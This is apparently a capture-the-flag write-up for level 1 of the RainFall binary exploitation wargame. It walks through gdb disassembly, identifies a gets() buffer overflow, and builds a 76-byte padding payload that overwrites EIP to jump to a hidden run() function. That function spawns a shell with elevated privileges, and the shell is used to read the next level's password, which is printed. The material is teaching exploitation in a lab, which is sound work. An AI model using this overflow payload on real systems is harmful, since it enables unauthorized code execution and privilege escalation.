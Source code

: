 # Level1

Using gdb:

	(gdb) disas main
	Dump of assembler code for function main:
	   0x08048480 <+0>:	push   %ebp
	   0x08048481 <+1>:	mov    %esp,%ebp
	   0x08048483 <+3>:	and    $0xfffffff0,%esp
	   0x08048486 <+6>:	sub    $0x50,%esp
	   0x08048489 <+9>:	lea    0x10(%esp),%eax
	   0x0804848d <+13>:	mov    %eax,(%esp)
	   0x08048490 <+16>:	call   0x8048340 <gets@plt>
	   0x08048495 <+21>:	leave  
	   0x08048496 <+22>:	ret    
	End of assembler dump.
	
We can also find a function in the source code which is never used :

	(gdb) disas run
	Dump of assembler code for function run:
	   0x08048444 <+0>:	push   %ebp
	   0x08048445 <+1>:	mov    %esp,%ebp
	   0x08048447 <+3>:	sub    $0x18,%esp
	   0x0804844a <+6>:	mov    0x80497c0,%eax
	   0x0804844f <+11>:	mov    %eax,%edx
	   0x08048451 <+13>:	mov    $0x8048570,%eax
	   0x08048456 <+18>:	mov    %edx,0xc(%esp)
	   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
	   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
	   0x0804846a <+38>:	mov    %eax,(%esp)
	   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
	   0x08048472 <+46>:	movl   $0x8048584,(%esp)
	   0x08048479 <+53>:	call   0x8048360 <system@plt>
	   0x0804847e <+58>:	leave  
	   0x0804847f <+59>:	ret    
	End of assembler dump.

This run function is able to start a shell. The goal is to call this function within the main.
The gets function in the main is prone to buffer overflow attacks. Since we know the buffer size, we can start to craft a payload that will overwrite the EIP register (instruction pointer), to pass it the address of run. We can see its address is 0x08048444.

                        +---------------+ Highest Address 0xffffffff
                        | cmd line args |
                        | env Variable  |
                        +---------------+
                        |     STACK     |
                        +--+------------+
                        |  |            |
                        |  |            |
                        |  v         ^  |
                        |            |  |
                        |            |  |
                        +------------+--+
                        |     HEAP      |
                        +---------------+
                        | Uninitialized |
                        |   Data(BSS)   |
                        +---------------+
                        |  Initialized  |
                        |     Data      |
                        +---------------+
                        |   Read Only   |
                        |     data      |
                        |       +       |
                        |     code      |
                        +---------------+ Lowest Address 0X00000000



                       +   Previous function  +
                       |     Stack frame      +
                       |                      |
                       +----------------------+ <--+ previous function stack frame end here
                       |Space for return value|
                       +----------------------+
                       |Arguments for function|
                       +----------------------+
                       |    return address    |
                       +----------------------+
                       |     saved $ebp       |
                       +----------------------+
	               |         $eip         |
	               +----------------------+
                       |                      | <--+  padding done by compilers
                       +------------+---------+
                       |         |4 |         |
                       |         |3 |         |
                       |         |2 | ^       |
                       |         |1 | |       |
                       |      ch |0 | |       |
                       +------------+-+-------+
                       |                      |
                       |     unused space     |
                       +                      +

[source](https://github.com/rosehgal/BinExp/tree/master)

Let's first check the maximum size of the buffer: 

	$ python -c 'print("A"*70 + "BCDEFGHIJK")' > payload

Looking at the registers, we see :

	(gdb) r < payload
	Starting program: /home/user/level1/level1 < payload

	Program received signal SIGSEGV, Segmentation fault.
	0x4b4a4948 in ?? ()
	(gdb) info registers
	[...]
	esp            0xbffff740	0xbffff740
	ebp            0x47464544	0x47464544
	esi            0x0	0
	edi            0x0	0
	eip            0x4b4a4948	0x4b4a4948
	[...]

The value of EBP is 0x47464544, corresponding to the following ascii characters : G(47), F(46), E(45), D(44). 
The value of EIP is 0x4b4a4948, corresponding to the following ascii characters : H(48), I(49), J(4a), K(4b)
It makes sense since EIP typically follows EBP in the stack.
It means we can overwrite the EIP register using the 77-80th characters.
If we pass the address of the run function to EIP, it will be executed as the next instruction.

	python -c 'print "A"*76+"\x44\x84\x04\x08"' > payload // address in little endian order

By passing this payload as argument, the binary will start a shell. We also need to keep stdin open using 'cat -'.

	level1@RainFall:~$ cat payload - | ./level1 
	Good... Wait what?
	id
	uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
	cd ../level2
	cat .pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

